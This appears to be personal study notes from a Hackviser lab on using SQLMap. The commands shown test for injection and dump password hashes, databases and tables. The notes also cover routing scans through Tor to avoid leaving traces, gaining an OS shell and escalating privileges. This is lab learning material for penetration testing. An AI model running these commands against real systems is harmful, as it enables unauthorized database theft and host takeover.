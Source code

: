 #+title: Sqlmap
#+author: gabriel

SQLMap provides the capability to test a wide range of database management systems. Supported databases include MySQL, Oracle, PostgreSQL, Microsoft SQL Server, SQLite, and many more.

* basic SQLMap parameters

| Parameter| Description
| -h| Basic help menu
| -hh | Advanced help menu
| -u/--url | Target URL
| --data | Data string to be sent through POST (e.g., "id=1")
| -p | Parameter to test for SQL injection
| --dbms | Specify the target database management system (e.g., MySQL, Oracle)
| --risk | Specify the risk level of the tests (1-3)
| --level | Specify the level of tests to perform (1-5)
| --dump | Used to dump the database contents
| --os-shell | Attempt to open a shell on the target system to execute commands

We'll use the -u parameter to specify the target. After starting the lab and obtaining the provided URL, let's perform a scan with the following command:

: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test"

As a result of our basic scan, SQLMap discovered an SQL Injection vulnerability in the search GET parameter of the target system.

As a result of our basic scan, SQLMap discovered an SQL Injection vulnerability in the search GET parameter of the target system.

** sqli with sqlmap attack via POST data
We will use the --data parameter to specify the POST data and the -p parameter to specify the field we want to test

: sqlmap -u "https://prepared-smasher.europe1.hackviser.space/login.php" --data="username=test&password=test" -p "username"

** detecting the database user
We will use the --current-user parameter to detect the active database user.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --current-user

** detecting the database name
We will use the --current-db parameter to detect the currently used database.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --current-db

** database user password hashes
We will use the --passwords parameter to detect the password hashes of the database users.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --passwords

** listing databases
We will use the --dbs parameter to detect the databases present in the database management system.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --dbs

** listing tables
We will use the --tables parameter to detect tables present in the database management system.

If we want to list tables in a specific database instead of all databases, we need to specify the database using the -D parameter.
: -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --tables -D ecliptica_cars

** listing table columns
We will use the --columns parameter to detect the table columns in a database. If we want to list the tables in a specific database, we need to specify the database using the -D parameter.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --columns -D ecliptica_cars

** retrieving data
We will use the --dump parameter to fetch data from the tables.
: sqlmap -u "https://bursting-bulletgirl.europe1.hackviser.space/?search=test" --dump -D ecliptica_cars

* commont attack techniques with sqlmap
In this section, we will discuss common attack techniques that can be performed using SQLMap's --technique parameter and how to apply them.

** Error-Based SQL Injection (E)
Error-Based SQL Injection aims to retrieve database structure information by exploiting error messages generated from SQL queries. SQLMap can automatically detect such vulnerabilities and extract data from the database.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=E

** Blind SQL Injection (B)
Blind SQL Injection attempts to extract data by interpreting the true or false outcomes of database queries. This method is used to extract database content without error messages by relying on true/false responses.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=B

** Union Query SQL Injection (U)
Union Query SQL Injection uses UNION SELECT statements to combine the results of multiple queries and extract information. This technique can also manipulate database queries to obtain additional data.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=U

** Stacked Queries SQL Injection (S)
Stacked Queries SQL Injection allows multiple SQL statements to be executed within a single query. This enables an attacker to run additional commands on the database, gaining more control.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=S

** Time-Based Blind SQL Injection (T)
Time-Based Blind SQL Injection aims to extract information by monitoring the response time of database queries. When a query is true, it introduces a delay in the response, allowing the attacker to determine the correctness of the query.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=T

** Out-of-Band SQL Injection (Q)
Out-of-Band SQL Injection causes the database server to interact with an attacker-controlled server, exfiltrating information.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --technique=Q

* Advanced Features of SQLMap
SQLMap offers many advanced features that allow users to conduct in-depth penetration testing. Let's discuss some of the advanced features provided by SQLMap along with usage examples.

** scanning with http request file
In this method, scanning is performed using a file that contains captured HTTP requests, usually exported from burp
: sqlmap -r request_file.txt

** scanning with post data
SQLMap can scan requests sent with POST data. This feature is particularly useful for form-based logins and applications where data is sent using the POST method.
: sqlmap -u "http://example.com/login.php" --data="username=admin&password=admin"

** session management
SQLMap saves the scanning process in a session file, allowing users to save the scan status and continue from that point later. This feature is especially useful for large and time-consuming scans.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --session=session_name

** custom queries and sql commands
With SQLMap, users can send their own SQL queries and execute specific database commands. This feature is beneficial for advanced users who want to go beyond standard SQLMap operations.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --sql-query="SELECT * FROM users"

** http request parameters
SQLMap offers various parameters to manipulate HTTP requests:

 * --cookie: Can be used to add custom cookies for session management required applications.
 * --user-agent: Changes the User-Agent value used in requests.
 * --referer: Used to customize the Referer header.

: sqlmap -u "http://example.com/vulnerable.php?id=1" --cookie="PHPSESSID=abc123" --user-agent="Mozilla/5.0" --referer="http://example.com"

** tor and proxy support
SQLMap supports anonymous scanning via the Tor network and can send requests through specified proxy servers. This helps to perform tests without leaving traces.
: sqlmap -u "http://example.com/vulnerable.php?id=1" --tor --proxy="http://proxy_address:port"

** access to Operating system shell
 * --os-shell: Provides an interactive operating system shell.
 * --os-pwn: Provides an external connection shell like Meterpreter or VNC.
 * --os-cmd: Executes a specific operating system command.
 * --priv-esc: Attempts to escalate database process user privileges.
